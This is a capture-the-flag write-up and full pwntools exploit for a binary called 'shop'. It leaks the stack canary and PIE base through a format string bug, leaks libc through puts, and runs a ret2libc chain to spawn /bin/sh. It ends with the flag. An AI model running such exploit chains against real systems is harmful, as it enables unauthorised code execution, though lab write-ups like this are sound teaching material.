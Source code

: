 Challenge Description

Do you hear, about ASLR and stack canary!!!

This is the privesc part of our PFA project,
if you solve it you are 1337 hacker
Author: YasseX

Challenge Overview

This CTF is about bypassing ASLR and stack canaries to achieve a ret2libc attack.

To solve the challenge, we need to:
	-Leak a stack canary and the program base address (to bypass ASLR) using a format string vulnerability.
	-Leak a libc address (via puts) to calculate the libc base address.
	-Execute a ret2libc attack to spawn a shell (/bin/sh).

Step-by-Step Exploit

1. Leaking main address and stack canary (Format String Attack)

First, we abuse a format string vulnerability to leak two important values:
The address of the main function (to calculate the binary base address and defeat ASLR).
The value of the stack canary (to bypass the stack protector).
io.sendline(b'%17$p.%13$p')

This sends a format string payload.
We then parse the output:
leak_line = io.recvline().strip()
main_str, canary_str = leak_line.split(b'.')
main = int(main_str, 16)
canary = int(canary_str, 16)

From here:

main gives us the base address of the binary.
canary is the random stack canary value protecting the stack.

2. Calculating Important Addresses
Since the binary is position-independent (PIE enabled), we calculate actual addresses by knowing the offsets:
binary_base = main - main_offset
getchar = getchar_got_offset + binary_base
puts = puts_plt_offset + binary_base
pop_rdi = pop_rdi_offset + binary_base
ret = ret_offset + binary_base

This allows us to find:

getchar (in GOT)
puts (in PLT)
pop rdi; ret gadget
ret gadget (for stack alignment if needed)

3. Leaking a libc address
Next, we prepare a payload to leak the real address of getchar in libc using puts:
payload = b'Y' * 104
payload += p64(canary)
payload += b'Y' * 8
payload += p64(pop_rdi)
payload += p64(getchar)
payload += p64(puts)
payload += p64(main)

This sends the address of getchar to stdout using puts, allowing us to calculate the libc base address.

getchar_libc = u64(io.recvline().strip().ljust(8, b"\x00"))
libc_base = getchar_libc - getchar_libc_offset

4. Final ret2libc Attack
With the libc base address known, we can find:

system function
/bin/sh string

system_address = libc_base + system_offset
bin_sh_address = libc_base + bin_sh_offset

Finally, we craft the final payload:
payload = b'Y' * 104
payload += p64(canary)
payload += b'A' * 8
payload += p64(pop_rdi)
payload += p64(bin_sh_address)
payload += p64(ret)
payload += p64(system_address)

This calls system("/bin/sh"), giving us a shell!

Exploit Script
Here is the full exploit used to solve the challenge:

from pwn import *

context.binary = 'shop'
elf = ELF('shop')
rop = ROP(elf)
io = process()

# offsets of addresses cuz there is ASLR
main_offset = 0x11e0
puts_plt_offset = 0x1040
getchar_got_offset = 0x4030
getchar_libc_offset = 0x86380
bin_sh_offset = 0x1a7e43
system_offset = 0x528f0
pop_rdi_offset = 0x11cc
ret_offset = 0x1016

io.sendline(b'%17$p.%13$p')
io.recvuntil(b'Welcome, ')

leak_line = io.recvline().strip()

# Split into two parts
main_str, canary_str = leak_line.split(b'.')

# Convert from bytes to int
main = int(main_str, 16)
canary = int(canary_str, 16)

print('the main functions is : ',hex(main))
print('the canary is : ',hex(canary))

# actual address of functions and gadgets
binary_base = main - main_offset
getchar = getchar_got_offset + binary_base
puts = puts_plt_offset + binary_base
pop_rdi = pop_rdi_offset + binary_base
ret = ret_offset + binary_base

# leaking the libc base address with puts
io.sendline(b'4')

payload = b'Y' * 104
payload += p64(canary)
payload += b'YYYYYYYY'
payload += p64(pop_rdi)
payload += p64(getchar)
#payload += p64(ret)
payload += p64(puts)
payload += p64(main)

io.sendline(payload)

io.recvuntil(b"------------------------------------------------")
io.recvline()
io.recvline()

getchar_libc = u64(io.recvline().strip().ljust(8, b"\x00"))

libc_base = getchar_libc - getchar_libc_offset
system_address = libc_base + system_offset
bin_sh_address = libc_base + bin_sh_offset

print("libc base : ",hex(libc_base))
print("system : ",hex(system_address))
print("/bin/sh : ",hex(bin_sh_address))


io.sendline(b'yassine')
sleep(0.1)
io.sendline(b'4')

payload = b'Y' * 104
payload += p64(canary)
payload += b'A' * 8
payload += p64(pop_rdi)
payload += p64(bin_sh_address)
payload += p64(ret)
payload += p64(system_address)

io.sendline(payload)

io.interactive()


Summary

Step			Purpose
Format String Leak	Leak main address and canary
Calculate Binary Base	To defeat PIE and ASLR
Leak Libc Address	Leak getchar and calculate libc base
ret2libc		Call system("/bin/sh") for a shell


flag : SECOPS{r3t2libc_1s_v3ry_c00l_att4ck}
